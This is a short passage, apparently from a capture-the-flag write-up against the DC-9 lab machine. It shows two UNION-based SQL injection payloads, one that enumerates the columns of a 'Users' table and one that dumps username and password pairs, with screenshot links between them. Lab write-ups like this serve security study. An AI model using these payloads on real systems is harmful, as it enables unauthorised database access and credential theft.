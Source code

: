 ```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='Users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%207.png)

```sql
Mary' union select null,CONCAT(username,':',password),null,null,null,null from Users-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%208.png)
